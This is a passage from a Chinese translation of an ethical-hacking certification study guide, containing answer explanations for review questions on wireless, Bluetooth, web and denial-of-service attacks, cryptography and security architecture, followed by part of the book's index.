- 6. B. 去认证攻击的目的是强制工作站重新认证。这使攻击者能够从认证和握手中收集信息。这些信息后来可用于潜在地推导密钥，如同 WEP 传输中那样。去认证攻击不会禁用工作站。无法减少握手步骤的数量，降级加密也要困难得多，如果可能的话。

- 7. A. 自带设备（BYOD）是一项政策，允许员工在企业网络上使用自己的设备。这为未知和意外设备的攻击打开了大门。其他选项都不是真实存在的事物。

- 8. C. 初始化向量是用于加密和解密的密钥的随机种子值。在 WEP 中，为初始化向量指定的算法产生了非随机、可预测的值。虽然初始化向量是密钥的一部分，但薄弱的并非密钥本身。种子向量不是真实存在的事物，而 Diffie-Hellman 是一种安全地推导和交换密钥的过程。它不是 WEP 的一部分。

- 9. B. 四阶段握手用于对无线网络上的工作站进行身份验证。作为握手的一部分，会生成加密密钥。密钥在交易双方推导，而不是直接交换。这在四路握手期间处理。密钥不会被传递。在四路握手完成并生成密钥之前，消息无法加密。不存在初始化种子这一事物。


10. C. 服务集标识符（SSID）用于标识网络。当您尝试连接到网络时，它是您会选择的网络名称。SSID 不是 MAC 地址，也与密钥或加密无关。

11. D. Ad hoc 和基础设施是无线网络的类型。只有基础设施使用接入点，但基础设施本身不是一种接入点。WPA 是一种加密协议。非法接入点（即不合法的接入点）通过伪装成合法接入点，用于孪生接入点攻击。

12. B. 孪生接入点攻击使用一个伪装成连接点的接入点，试图连接到合法无线网络的站点会尝试连接到这个伪装成另一个接入点的接入点。虽然您可能会在孪生接入点攻击中进行凭据钓鱼，但凭据钓鱼并非孪生接入点攻击的工作原理。SSID 不会作为孪生接入点攻击的一部分而更改，这意味着现有的 SSID 不会变成另一个 SSID。注入四次握手不会起多大作用，因为四次握手假设两端正在通信，因此注入的完整通信流将被忽略。

13. C. Apple App Store 和 Google Play Store 由 Apple 和 Google 控制。通过它们将恶意软件放入移动设备并非不可能，但非常困难，因为应用程序会经过审查流程。虽然某些 Android 设备支持外部存储，但这不是将恶意软件放入智能手机或其他移动设备的有效方式。越狱可能导致安装恶意软件，但它不是将恶意软件放入移动设备的手段。第三方应用商店可以成为将恶意软件放入移动设备的好方法，因为某些第三方应用商店不会审查提交的应用程序。

14. B. Bluebugging 攻击用于获取对智能手机的访问权限，以便向攻击者的手机发起呼叫。这使攻击者能够监听手机所有者周围发生的任何事情。扫描用于识别附近的 Bluetooth 设备。没有特定的攻击用于启用手机摄像头。从目标设备或系统收集数据称为 Bluesnarfing。

15. A. 虽然有些 Bluetooth 设备传输距离更远，但 Bluetooth 4.0 的常见范围约为 300 英尺（100 米）。

16. D. Tcpdump 可用于捕获帧/数据包。Ettercap 用于捕获和欺骗攻击。两者都无法捕获所有头部，包括无线网络中的无线电头部。aircrack-ng 软件包包含 airmon-ng 程序，该程序可以在网络接口上启用监听模式。aircrack-ng 程序本身无法做到这一点。

17. B. Bluesnarfing 是一种连接到 Bluetooth 设备以从中窃取数据的攻击。Bluesnarfing 会将数据发送给攻击者。Bluejacking 可用于向 Bluetooth 设备发送信息，例如短信。这两种攻击都不会安装键盘记录器。

18. C. Wireshark 用于从网络中捕获数据包/帧。Ettercap 用于欺骗攻击。aircrack-ng 程序可用于破解无线密钥。然而，Wifiphisher 可用于设置孪生接入点攻击。

19. B. WPA 支持个人身份验证和企业身份验证。个人身份验证使用预共享密钥，而企业身份验证使用用户名和密码来验证特定用户，提供计费和访问控制，这意味着我们知道确切谁连接到了网络。

20. D. 无线网络中的无线电头部将提供设备的功能信息，因为这是在关联过程中协商的。您还会看到探测请求，询问区域中有哪些网络，包括站点已知的特定网络。这些请求将包含 SSID。响应中也将包含 SSID。您无法在头部中获取网络类型。

第 12 章：攻击与防御

1. B. 虽然 DNS 也用于放大攻击，但 Smurf 攻击是由某人向网络的广播地址发送 ICMP 回显请求造成的。回显响应将发送到请求源中的地址，该地址会被伪造。如果有足够多的系统响应，响应量可能会压倒目标系统。

2. C. SQL 注入攻击使用 SQL 查询，其中可能包含改变应用程序流程的逻辑。在提供的示例中，意图是强制 SQL 查询结果始终返回真。之所以这样引用，是为了转义应用程序中已有的现有查询。其他攻击都不使用看起来像示例的语法。

3. C. 由于 TCP 使用三次握手，像放大攻击中所需的那种伪造非常困难。SMTP 也使用 TCP。XML 用于数据结构和呈现。DNS 常用于现代放大攻击。

4. A. SYN 洪水攻击利用三次握手。单个 SYN 消息会在操作系统中占用连接缓冲区。在操作系统完成三次握手之前，请求不会到达应用层的 Web 服务器。SYN 不是与 UDP 一起使用的头部标志。

5. B. Slowloris 攻击用于保持 Web 服务器的连接缓冲区打开。足够多的此类请求会消耗 Web 服务器的所有可能连接。应用层在此不起作用，因为应用层中没有连接缓冲区。Web 服务器不用于 HTTP 请求的 UDP，Slowloris 是针对 Web 服务器的攻击。

6. C. 堆喷射使用动态分配的空间来存储攻击代码。Slowloris 攻击用于保持 Web 服务器连接缓冲区打开。SQL 注入将用于向数据库服务器注入 SQL 查询。缓冲区溢出会向应用程序发送超过已分配空间的数据。

7. D. 跨站脚本攻击使用脚本语言在浏览器中运行。由于浏览器在用户身边，最终攻击针对的是用户，即使注入代码存储在数据库服务器中。

8. D. 跨站脚本攻击通常使用 JavaScript 或可能是 VBScript。SQL 注入使用 SQL。命令注入使用操作系统命令。该片段显示使用外部实体的 XML。因此，这是 XML 外部实体注入。

9. B. SQL 注入攻击获取从用户/攻击者注入的数据。用户发送的任何数据在被采取行动之前都应始终进行验证。不应信任来自用户的任何内容。其他答案都无法用于防止 SQL 注入攻击。

10. A. 纵深防御网络设计使用多层防护，使入侵网络内部变得困难得多。SIEM 用于收集和关联情报和日志数据。Web 应用防火墙防止应用层攻击。日志管理系统就是其名字所说的那样。然而，防火墙通常用于纵深防御网络设计。

11. A. 广度防御从纵深防御开始，并考虑更广泛的攻击策略。广度防御不一定能防止 SQL 注入，可能也不能防止缓冲区溢出或堆喷射攻击。这些防护可能得以实现，但最终，广度防御将通过考虑更广泛的攻击来实现这些防护。

12. C. 缓冲区溢出攻击是针对栈中数据的攻击，栈在编译时已知，因此不是动态的。跨站脚本攻击和 Slowloris 攻击不会将代码注入内存。然而，堆喷射攻击会将代码注入堆中，堆是动态分配内存的来源。

13. C. 缓冲区溢出会获取过量数据，并尝试将其存储到无法容纳的内存位置中。SQL 注入攻击使用 SQL。命令注入攻击使用操作系统命令。跨站脚本攻击使用诸如 JavaScript 或 VBScript 之类的脚本语言。脚本使用 `<script>` HTML 标签注入，`%3C` 是编码 `<` 的一种方式，`%3E` 是编码 `>` 的一种方式。这意味着 `%3Cscript%3E` 将被解码为 `<script>`。

14. B. Base64 编码将不可打印字符编码为可以以文本形式呈现的格式。加密通常会使文本对人不可读。加密哈希是生成固定长度值的一种方式。URL 编码将文本转换为十六进制值以表示字符。这是已转换为十六进制的文本，以便可在 URL 中使用。

15. D. Slowloris 攻击使用小的 HTTP 请求来保持 Web 服务器的可用连接。有些攻击以缓慢的方式使用正文请求。然而，慢读攻击会尝试以非常小的增量下载文件，以阻止 Web 服务器处理合法请求。

16. D. 虽然防火墙和 IDS 会生成日志，但它们不会收集日志。日志管理器会收集日志并可能将其聚合，但可能不会关联日志消息。然而，SIEM 会消耗日志、将其聚合并关联它们。


- 17. A. 命令注入会将操作系统命令发送到 Web 应用程序中，以便由操作系统执行。Web 服务器（即 Web 服务器应用程序）不是命令注入的目标，数据库服务器或用户也不是。

- 18. C. 低轨道离子炮（Low Orbit Ion Cannon）是一个基于 .NET 的应用程序，用于发起拒绝服务攻击。它不用于日志管理或 SQL 注入攻击，也不适用于缓冲区溢出。

- 19. B. SIEM 输出很有用，在理解当前攻击方面可能有一定价值。日志和入侵检测系统也是如此。然而，攻击生命周期是一种结构化方法，用于了解攻击是如何发生的，以便更好地为防御策略提供信息，从而可以为攻击的每个阶段实施控制。

- 20. C. 栈指针指示栈在内存中的位置。帧指针指示当前帧正在使用栈的哪一部分。从操作系统角度看，不存在缓冲区指针，尽管应用程序确实使用指针，并且这些指针确实指向缓冲区。指令指针告诉处理器下一条要执行的指令位于何处。控制此信息可以让攻击者控制程序的执行流程。

### 第 13 章：密码学

- 1. C. 这是一个密钥为 4 的旋转加密算法。将字母表旋转 4 位后，得到 e = a、r = n、w = s，等等。除了不是正确的解密之外，其他选项的字母数量也不正确。在像旋转加密这样的替换加密中，输出的字母数量始终与输入相同。

- 2. B. 在密码学中，任何未加密状态的数据或消息都称为明文。密码学过程的输出称为密文。虽然加密过程的输入可能是文本，但在这种情况下，“文本”一词会产生歧义。其他两个选项与密码学无关。

- 3. C. 证书颁发机构使用集中式机制来验证用户或证书主体，而 PGP 使用去中心化模型。PGP 称此为“信任网络”，其中单个用户为属于其他人的密钥签名，以验证他们就是他们声称的那个人。所有其他答案都是臆造的术语。

- 4. A. 完整性是 CIA 三要素的一部分，但不是将已签名消息与签名证书主体关联起来的原则。不可否认性是无稽之谈，权威性在此也不相关。相反，不可抵赖性意味着如果消息是用某人的密钥签名的，那么该人不能声称没有发送该消息。这假设该密钥在其持有之下并受密码保护，意味着没有其他人可以使用它。

- 5. C. 证书可以被吊销，但这并非 Diffie-Hellman 的用途。密钥管理比密钥交换要广泛得多，而 Diffie-Hellman 正是用于密钥交换。这是一个过程，允许加密对话的双方从相同的基值出发相互推导出相同的密钥。

- 6. D. 3DES（即三重 DES）使用三个密钥。第一个密钥用于加密明文。第二个密钥用于解密第一轮加密得到的密文。最后，第三个密钥用于加密使用第二个密钥解密后得到的密文。密钥并未变长，因为 3DES 中使用的 168 位并未用于单个密钥。底层的 DES 算法仍在使用。

- 7. A. 椭圆曲线密码学使用的算法不一定更复杂。虽然它们不使用因式分解，但仅凭这一点并不一定能让算法变得更好。相反，椭圆曲线密码学依赖于这样一个假设：计算椭圆曲线上一点的离散对数无法以一致的方式进行计算。椭圆曲线密码学产生的密钥实际上比使用大素数因式分解产生的密钥更小。

- 8. B. 当两个不同的数据集产生相同的加密哈希时，这称为冲突。它与一个称为生日悖论的数学问题相关，但两个值相同并不是悖论。这也并非不现实，也不是崩溃。

- 9. C. 非对称密钥密码学使用两个相关的密钥。一个密钥用于加密，另一个用于解密。这些密钥称为公钥和私钥。由于用于向配对私钥所有者加密消息的是公钥，因此这种加密通常被称为公钥加密。它既不是单因素也不是多因素，因为它不是身份验证。

- 10. C. 公钥加密之所以有效，是因为公钥可以提供给任何人。你用公钥能做的唯一事情就是加密一条消息，该消息可以由匹配的私钥解密。这个过程使用非对称加密，因此不是对称密钥。私钥必须由密钥所有者持有并受到保护。如果该密钥泄露，任何使用公钥加密给所有者的消息都可能被解密。PGP 使用公钥/私钥，并没有自己的密钥类型。

- 11. D. 这意味着如果 A 信任 B，B 信任 C，那么 A 可以信任 C。这是传递性的应用。交换律和结合律也是数学原则。不存在所谓的“交换性属性”。

- 12. A. 对称密钥加密通常用于替代非对称密钥加密，因为对称密钥加密使用更短的密钥和更少的资源，从而缩短了加密和解密所需的时间。即使在本语境下定义“更安全”一词，这也不能使其更安全。对称密钥并不更容易实现，非对称密钥也不受专利限制，这就是 C 和 D 错误的原因。

- 13. B. 当同时使用对称和非对称密钥时，通常是非对称密钥用于保护对称密钥，这称为混合密码系统。其他选项都不存在。

- 14. D. 媒体访问控制（MAC）是附加到物理网络接口的地址。正确答案是消息认证码，因为 SHA-1 和 MD-5 用作消息认证码，以确保消息未被篡改。这意味着它正在进行身份验证。

- 15. B. PGP 使用公钥和私钥。公钥存储在公开位置，例如密钥存储库。由于有两个密钥，PGP 使用非对称密钥加密，有时也称为公钥加密。

### 第 14 章：安全架构与设计

- 1. B. Biba 安全模型涵盖数据完整性。虽然其他模型涵盖机密性，但没有一个涵盖可用性。

- 2. D. n 层应用程序（有时称为多层应用程序）可以拥有所需的任意数量的层。虽然你可能认为有三层，但根据应用程序的设计方式，可能会有更多层。

- 3. C. JavaScript 对象表示法（JSON）使用键和值来存储数据。虽然理论上可以在 JSON 中表示关系数据库，但这并非最高效的方式。SQL 是用于查询关系数据库的语言，而基于文档的数据库更可能使用其他文档类型来存储数据。

- 4. C. NIST 网络安全框架规定了五个功能：识别、保护、检测、响应、恢复。

- 5. C. ISO 27001 规范采用与 NIST 网络安全框架不同的方法。ISO 27001 规定了计划、执行、处理、检查，共四个步骤。

- 6. A. 美国政府使用的最高分类级别是绝密。机密和受限是较低级别，而“仅限本人查阅”不是美国政府使用的分类级别。

- 7. D. 微通道架构是 20 世纪 90 年代由 IBM 提出并实现的一种外围设备与硬件系统交互的规范。面向服务架构是一个较旧的概念，在某种程度上已被微服务重新激活。其他答案都不是实际存在的事物。

- 8. C. 基础设施即服务是一种基于云的产品，公司可以获取用于其基础设施的服务器。面向服务是一种潜在的应用程序设计方式。AWS 中的一切都是虚拟化的。这就剩下无服务器了。Lambda 函数不需要预置服务器来支持它们。函数及其数据的所有处理都由 AWS 基础设施处理。

- 9. C. Clark-Wilson 完整性模型指定了受限数据项（CDI）和不受限数据项（UDI），用于识别和实施规则。其他答案要么不存在，要么指与信息安全无关的事物。


10. D. 仿真是指应用程序可以在未为其编译的处理器上运行，因此操作码被仿真。AWS是Amazon Web Services，可以提供应用程序虚拟化服务，但不是一种应用程序虚拟化类型。半虚拟化是部分虚拟化。容器是在不使用完整虚拟机的情况下隔离应用程序的一种方法，运行在Hypervisor上。

11. A. NIST指定的五大职能是识别（Identify）、保护（Protect）、检测（Detect）、响应（Respond）和恢复（Recover）。在完成识别之前，你无法执行任何其他职能，识别定义了业务需求和业务的关键资产。

12. D. 通常，在n层应用程序设计中，你会看到以下核心功能：浏览器、应用程序服务器、数据库服务器。应用程序服务器前面可能还存在安全功能、负载均衡器以及Web服务器。不过，当你只关注核心时，应用程序服务器位于架构的中间。

13. B. MongoDB是一个非关系型的NoSQL服务器。SQL Server含义模糊，但可能指Microsoft SQL Server，它不是开源的。Oracle是一家拥有关系数据库服务器的公司，包括MySQL，但只有MySQL是开源的。

14. C. Bell-LaPadula简单安全属性指出，主体不能读取高于自身级别的客体。其他答案均不正确。

15. D. 这里的某些答案将NIST的五大职能与ISO 27001周期的阶段混淆在一起。唯一仅包含ISO 27001阶段的选项是D，这些阶段是计划（Plan）、执行（Do）、检查（Check）和处理（Act）。

# 索引

## 数字

- 419诈骗，361
- 802.11，388。另请参见Wi-Fi（Wireless Fidelity）
  - 信道，389
  - ISM频段，389
  - 信号距离，389

## A

- A2DP（Advanced Audio Distribution），407
- ad hoc Wi-Fi网络，390
- 地址，MAC（媒体访问控制），21
- AES（高级加密标准），197，454–455
- 算法，哈希算法，248
- AMIs（Amazon Machine Images），40–41
- Android，移动设备，411
- 复习问题答案
- 架构，528–529
- 攻击，524–526
- 密码学，526–528
- 防御，524–526
- 设计，528–529
- 枚举，511–512
- 足迹分析，506–508
- 恶意软件，515–517
- 网络扫描，508–510
- 网络，502–503
- 侦察，506–508
- 安全，503–505
- 嗅探，518–519
- 社会工程学，519–521
- 系统攻击，513–515
- 无线安全，522–524
- 杀毒软件，解决方案，314
- Apple
  - App Store，412
  - Face ID，365–366
  - 移动设备，411
- 应用（第7层）OSI模型，13
- 应用层防火墙，64–65
- WAF（Web应用防火墙），64
- 应用程序 另请参见Web应用程序攻击
  - 设计，481
  - 云端，487–489
  - 数据库，489–491
  - n层设计，482–484
  - 面向服务，485–487
  - 漏洞利用
    - 缓冲区溢出，433–436
    - 堆喷射，436
- 架构
  - 复习问题答案，528–529
  - 应用程序，481
  - 云端，487–489
  - 数据库，489–491
  - n层设计，482–484
  - 面向服务，485–487
  - 可防御的，440–441
  - 安全架构，492
- 攻击生命周期，495
- ISO（国际标准化组织），494
- NIST，492–494
- ARP（地址解析协议），518
  - 数据链路层，14
  - 欺骗，342–343
- arpspoof，343–344
- 缓存持续时间，Linux，343
- Ettercap，344
- 主机列表，345
- ASCII（美国信息交换标准代码），表示层和，13
- 非对称密码学，527
- ECC（椭圆曲线密码学），457–459
- 混合密码体制，456–457
- 不可否认性，457
- 攻击，505
- 复习问题答案，524–526
- 广度防御，438–439
- 深度防御，438–439
- 钓鱼邮件，368–371
- Web应用程序，420–421
- 网站，371
- Wi-Fi网络
  - 去认证，402–404
  - 孪生接入点，404–406
  - 密钥重装，406–407
  - 嗅探，398–402
- 审计，76–77
- 身份验证
  - GTK（组临时密钥），395
  - PMK（成对主密钥），395
  - PTK（成对临时密钥），395
  - Wi-Fi网络，392–393
    - BSSID（基本服务集标识符），392
    - SSID（服务集标识符），392
- 真实性（Parkerian Hexad），55
- 权威，社会工程学和，359
- autoroute，与转发相关，261–262
- AV-Test研究所，恶意软件统计，280
- AWS（Amazon Web Services），487–488
- EC2（弹性计算云），39–40
- AWS Marketplace，40–42
- Azure Marketplace，42

## B

- Biba完整性模型，479，528
- 生物识别，365，519，520
  - 指纹，366
  - 虹膜扫描，366
  - 视网膜扫描，366
  - 声纹，366
- 黑客，3，4
- Bluebugging，410，523
- Bluejacking，409
- Bluesnarfing，410，523
- Bluetooth，407，522
  - A2DP（Advanced Audio Distribution），407
  - Bluebugging，410
  - Bluejacking，409
  - Bluesnarfing，410
  - Btscanner，408
  - NFC（近场通信），408
  - PIN，407
  - 扫描，408–409
  - SSP（简单安全配对），408
- 僵尸网络，284–285
  - C&C，284
  - C2，284
  - 命令和控制基础设施，284
  - ZeuS，284–285
- BPF（Berkeley数据包过滤器），335，518
  - 过滤器，复杂，336
  - tcpdump，无过滤器，335–336
- BSD（Berkeley软件发行版），324
- BSSID（基本服务集标识符），376，392
- 缓冲区溢出，433–436，505，525
- 总线拓扑，16–17，502
- BYOD（自带设备），397–398，522
- 字节，25

## C

- C2（命令和控制基础设施），284，312
- CA（证书颁发机构）
  - 证书详情，461
  - 证书错误，463
  - 创建，460
  - 生成，464
  - OpenSSL库，460
  - PKI（公钥基础设施），459–460
  - 自签名证书，463–465
  - Simple Authority软件，460
- 布线，16
- 调用，库函数，304–305
- CAM（内容可寻址内存），22
- CDIs（受限数据项），481，528
- CEH（认证道德黑客），2
- 行为准则，5
- CERT（计算机应急响应小组），3
- Chocolatey包管理器，287
- CIA三要素
  - 可用性，54
  - 机密性，51
    - SSL/TLS，51
    - TLS，51
  - 完整性，53–54
  - Parkerian Hexad，55
- Cialdini, Robert，358
- CIFS（常见Internet文件系统），6
- 密码，轮换，449–450，526
- CISSP（认证信息系统安全专业人员），认证，50
- Clark-Wilson完整性模型，480–481，528
- 客户端漏洞，253
  - Firefox漏洞模块，253–254
  - msfconsole，253–254
- 克隆网站，371
- 命令行工具，372
  - wget命令，373–374
  - WinHTTrack，372–373
- 云计算，36–37
  - AWS（Amazon Web Services），EC2（弹性计算云），39–40
  - IaaS（基础设施即服务），39–40
  - IoT（物联网），43
  - PaaS（平台即服务），40–42
  - SaaS（软件即服务），42–43
  - SaaS（存储即服务），37–39
- 云端架构，489
  - AWS（Amazon Web Services），487–488
- 命令和控制基础设施（C2/C&C），312
- 命令注入攻击，427–428，526
- 承诺，社会工程学和，359
- 通信模型，11–12
  - OSI（开放系统互连），12–15
    - 应用（第7层），13
    - 数据链路（第2层），13，14
    - 网络（第3层），13，14
    - 物理链路（第1层），13，14
    - 表示（第6层），13
    - 会话（第5层），13，14
    - 传输（第4层），13
    - 传输（第5层），14
  - TCP/IP架构，15–16
- 机密数据，477，503
- 掩饰痕迹，265–266
  - 隐藏数据，269–271
  - 日志操纵，268–269
  - 进程注入，267–268
  - rootkit，266
  - 时间管理，271–272
- CRM（客户关系管理），42–43
- CRs（认证规则），481
- 密码学，448。另请参见加密
  - 复习问题答案，526–528
  - 非对称密钥
    - ECC（椭圆曲线密码学），457–459
    - 混合密码体制，456–457
    - 不可否认性，457


- CA (证书颁发机构), 459
  - 证书详情, 461
  - 创建, 460
  - OpenSSL 库, 460
  - PKI (公钥基础设施), 459–460
  - 自签名证书, 463–465
  - Simple Authority 软件, 460
  - 受信任的第三方, 462–463

- 哈希, 465–466
  - MD5 哈希, 466
  - SHA-1 和, 467

- 对称密钥
  - AES (高级加密标准), 454–455
  - DES (数据加密标准), 453–454

- CSS (层叠样式表), 423

- Cuckoo Sandbox, 296–297, 516
  - 日志, 299–300
  - 结果, 300

- Cutter, 288

- 可执行文件
  - 反汇编, 291–293
  - 加壳, 290–291
  - 属性, 293–294

- 加壳程序, 290–291

- PE Detective, 290–291

- PE 文件, 288–289

- CVE (常见漏洞和披露), 152

## D

- 暗网, 漏洞利用, 238

- DARPA 模型, 42

- 数据分类, 476–477
  - 政府, 477
  - 简单, 477

- 数据链路层 (第 2 层) OSI 模型, 14

- ARP (地址解析协议)
  - 和, 14

- MAC (介质访问控制) 和, 14

- VLANs (虚拟局域网) 和, 14

- Wi-Fi, 388–389

- 数据库
  - JSON (JavaScript 对象表示法), 490
  - NoSQL, 490–491
  - SQL (结构化查询语言), 489

- 去认证攻击, 402–404

- 调试, 517
  - 断点, 303–304
  - 调用栈, 304
  - IDA Pro, 301–302
  - Immunity Debugger, 301
  - 恶意软件分析, 300–305
  - OllyDbg, 301, 302–303
  - Windows 调试器, 301

- 广度防御, 73

- 纵深防御, 71–73

- 拒绝服务攻击
  - 带宽, 428–430
  - SAR (斯穆夫放大器注册表), 429
  - 带宽攻击, 428–431
  - 分布式拒绝服务, 430
  - 旧式, 432–433
  - 慢速攻击, 431–432

- DES (数据加密标准), 453–454

- 3DES (三重 DES), 454

- 设计
  - 复习题答案, 528–529
  - 应用程序, 481
  - 云端, 487–489
  - 数据库, 489–491
  - n 层设计, 482–484
  - 面向服务, 485–487

- 数据分类, 476–477
  - 政府, 477
  - 简单, 477

- DevOps, 73

- DevSecOps, 73

- Diffie-Hellman 算法, 197, 452–453, 526

- 迪菲, 惠特菲尔德, 197, 452

- dig 实用工具
  - 名称查找, 113–115
  - 区域传输, 115–116

- dirb 实用工具, 511

- 分布式拒绝服务攻击, 430

- DLL (动态链接库), 288

- DMZ (非军事区), 35

- DNP3 (分布式网络协议), 127

- DNS (域名系统), 84, 108–109
  - 卡明斯基和, 3
  - 名称查找, 109–111
  - dig 实用工具, 113–115
  - host 工具, 111–112
  - nslookup, 112–113
  - 查询, 507
  - 欺骗, 346–347
  - Ettercap, 346–348
  - TLDs (顶级域), 109
  - 区域传输
    - 暴力破解, 116–117
    - dig 实用工具, 115–116

- DOM (文档对象模型), 423, 424

- 域名注册商, 87–91
  - IANA (互联网数字分配机构), 88–90
  - ICANN (互联网域名和数字分配机构), 88

- 域名, 109

- DPI (深度包检测) 防火墙, 63–64

- 投放程序, 286–287

- DROWN (使用过时和减弱加密解密 RSA), 152

## E

- EAP (可扩展认证协议), 395

- EBCDIC (扩展二进制编码十进制交换码), 表示层和, 13–14

- EC2 (弹性计算云), 39–40

- ECC (椭圆曲线加密), 457–459

- EDGAR (电子数据收集、分析和检索系统), 86–87, 507

- ElasticStack, Kibana, 70, 505

- ELF (可执行和可链接格式) 文件, 309

- ELK (ElasticSearch, LogStash, Kibana), 70

- 电子邮件, 钓鱼攻击, 368–371

- 加密。另见 密码学
  - AES (高级加密标准), 197
  - 密码, 旋转, 449–450
  - Diffie-Hellman, 452–453
  - 密钥交换, Diffie-Hellman, 197
  - PGP (非常好隐私), 467–469
  - S/MIME (安全多用途因特网邮件扩展), 467–469
  - Wi-Fi, 393–394
  - WPA (Wi-Fi 保护访问), 394–395
  - WPA2 (Wi-Fi 保护访问 2), 395–397

- 加密程序 (恶意软件), 290–291

- enum4linux, 511

- 枚举, 6–7, 194
  - 复习题答案, 511–512
  - RMI (远程方法调用), 200–203
  - RPCs (远程过程调用), 198
  - SunRPC, 198–200
  - 服务枚举
    - Diffie-Hellman 算法, 197
    - SSH2 算法, 196–197
    - 版本扫描, nmap, 195–196
  - SMB (服务器消息块), 204–205
  - Metasploit, 209–212
  - nmap 脚本, 207–209
  - 实用工具, 212–215
    - 内置, 205–207
  - SMTP (简单邮件传输协议) 会话, 217–218
  - smtp_enum 运行, 219–220
  - VRFY 测试, 218–219
  - SNMP (简单网络管理协议), 215–216
  - snmpwalk, 216–217

- 基于 Web
  - brute_dirs Metasploit 模块, 221-222
  - dirb 目录测试, 220-221
  - Msfconsole 列出引导, 223
  - Wordpress 插件, 223-226
  - Wordpress 用户名, 222-223

- 环境, 恶意软件分析, 287-288

- ERs (强制规则), 481

- ESMTP (扩展 SMTP), 511

- EternalBlue, 242, 244

- 道德黑客, 2
  - 掩盖踪迹, 8
  - 方法论, 5
    - 访问, 7
    - 枚举, 6-7
    - 足迹分析, 6
    - 侦察, 6
    - 扫描, 6-7
  - 概述, 4-5

- 伦理
  - 概述, 2-4
  - 扫描和, 136

- Ettercap
  - ARP 欺骗, 344
  - 主机列表, 345
  - DNS 欺骗, 347-350
  - SSL 剥离欺骗, 349-350

- 规避, 508
  - 更改, 185
  - 分片, 185
  - 隐藏数据, 185
  - 低速和慢速, 186
  - 畸形数据, 186
  - 模糊数据, 185
  - 重叠, 185-186
  - 资源消耗, 186
  - 屏幕失明, 186
  - 隧道, 186

- 事件查看器 (Windows)
  - 审计, 76
  - 日志记录, 75

- 孪生接入点攻击, 404-406, 523

- Exploit-DB 存储库, 237-238

- exploit-db.org, 235

- ExploitDB
  - EternalBlue, 244
  - 漏洞利用处理程序, 244-245
  - searchsploit 结果, 243-244

- 漏洞利用
  - 暗网, 238
  - Exploit-DB 存储库, 237-238
  - Kali Linux, 236
  - OpenSSH, 236
  - 远程, 235
  - 搜索, 234-236
  - searchsploit, 236-237
  - Tor, 238

- Express 库, 313-314

## F

- Face ID (Apple), 365-366

- Facebook, 507
  - Graph API, 98-99
  - 权限设置, 100
  - 可搜索性, 97

- FAR (错误接受率), 366

- 法默, 丹, 160

- FFR (错误失败率), 366

- 文件扩展名, 社会工程学和, 359

- 指纹, 366

- Firefox 漏洞模块, 253-254

- 防火墙, 504, 517
  - 应用层防火墙, 64-65
  - WAF (Web 应用程序防火墙), 64
  - DPI (深度包检测), 63-64
  - 包过滤器, 61-62
  - 扫描和, 137
  - 有状态过滤, 62-63
  - TCP 和, 62
  - UDP 和, 63
  - UTM (统一威胁管理), 65

- FLARE (FireEye 实验室高级逆向工程) 团队, 287

- 足迹分析, 6
  - 复习题答案, 506–508

- fping, 137
  - 输出, 138–139

- fragroute, 183–185, 510

- 帧, 323

- FTP (文件传输协议), 防火墙和, 62

- 函数, 库, 调用, 304–305

## G

- GHDB (Google 黑客数据库), 126

- Google
  - Google 语法, 126–127
  - GHDB (Google 黑客数据库), 126
  - 黑客攻击, 125–126
  - Google Docs, SaaS (软件即服务), 42
  - Google Drive, 38

- 政府数据分类, 477

- 灰帽, 4

- GTK (组群临时密钥), 395

- GUI (图形用户界面), 323

## H

- 黑客攻击。另见 道德黑客

- 哈希算法, 248
  - 恶意软件分析, 294–296

- 标头, 11
  - TCP (传输控制协议), 30

- 堆喷射, 436, 524

- 赫尔曼, 马丁, 197, 452

- 十六进制转储, 327

- 十六进制值, MAC 地址, 21

- 隐藏数据, 269
  - ADSs (备用数据流), 270
  - 备用数据流, 271
  - 临时 Internet 文件, 270

- hping, 178–180, 509
  - UDP 端口扫描, 180

- HTML (超文本标记语言), 421

- HTTP (超文本传输协议), 13, 313

- 集线器, 17

- 混合密码系统, 456–457

- 混合拓扑, 20–21, 502

- 虚拟机监控程序
  - KVM (基于内核的虚拟机), 297
  - VMware, 288

## I

- “我爱你”病毒, 359–360

- IaaS (基础设施即服务), 39–40, 528

- IANA (互联网数字分配机构), 88–90

- ICANN (互联网域名和数字分配机构), 88

- ICMP (互联网控制报文协议), 32–33, 502

- ICSs (工业控制系统), 127

- IDA Pro, 301–302

- IDE (集成开发环境), 300

- IDSs (入侵检测系统), 65, 505
  - 部署位置, 66
  - Snort 规则, 67

- IEEE (电气和电子工程师学会), 388

- IETF (互联网工程任务组), 23

- IIS (Internet 信息服务器), 483

- Immunity Debugger, 301

- IMP (接口消息处理机), 15, 23

- 冒充, 362

- 情报
  - 技术, 124
  - Google 黑客攻击, 125–126
  - IoT (物联网), 126–128
  - 网站, 120–124

- IoT (物联网), 43
  - MQTT (消息队列遥测传输), 42
  - 技术情报和, 126–128


- IP（互联网协议），10, 23, 45
  - 寻址，25–26
  - 首部
    - 校验和，25
    - 目标地址，25
    - 标志，24
    - 片偏移，24
    - 首部长度，24
    - 标识，24
    - 协议，25
    - 源地址，25
    - 总长度，24
    - TTL（生存时间），24
    - 服务类型，24
    - 版本，24
  - 网络层和，14
- 扫描器，MegaPing，140
- 子网，26–28
- IP 地址
  - 配置，中转和，260–262
  - whois 查询，92–93
- IPS（入侵防御系统），68–69
- IPSec（IP 安全），36
- IPX（互联网分组交换），23
- IRC（互联网中继聊天）协议，312
- 虹膜扫描，366
- ISM（工业、科学和医疗）
  - 频段，389
- ISO（国际标准化组织），12, 59
- 网络隔离，35–36
- IVP（完整性验证程序），481

### J

- JDK（Java 开发工具包），203
- 招聘网站，107–108
- John the Ripper，248, 515
  - John 单次破解模式，249–250
  - unshadow，250
- JPEG（联合图像专家组），
  - 表示层，14
- JRE（Java 运行时引擎），203, 512
- JSON（JavaScript 对象表示法），490, 528

### K

- 卡明斯基，丹，3
- 密钥交换，Diffie-Hellman 算法，197
- 密钥重新安装攻击，406–407
- Kibana，70
- KVM（基于内核的虚拟机），297

### L

- LAND（局域网拒绝服务）攻击，433
- LANs（局域网），34, 45
- 横向移动，436–438
- LEAP（轻量可扩展身份验证协议），396
- 传统攻击，432–433
- 库，Express，313–314
  - 库函数，调用，304–305
  - 好感，社会工程学和，359
- LinkedIn，100–101, 506, 507
  - InSpy 搜索，102–103
  - 职位统计，101
- Kali Linux，102
- 日志记录，74–76, 504
  - 事件查看器（Windows），75
  - 日志操纵，268–269
  - 事件查看器清除，269
- SMTP（简单邮件传输协议）
  - 和，74
  - syslog，74–75

### M

- OUI（组织唯一标识符），21
- 星形拓扑，17
- 交换，21–22
- 宏，病毒，282
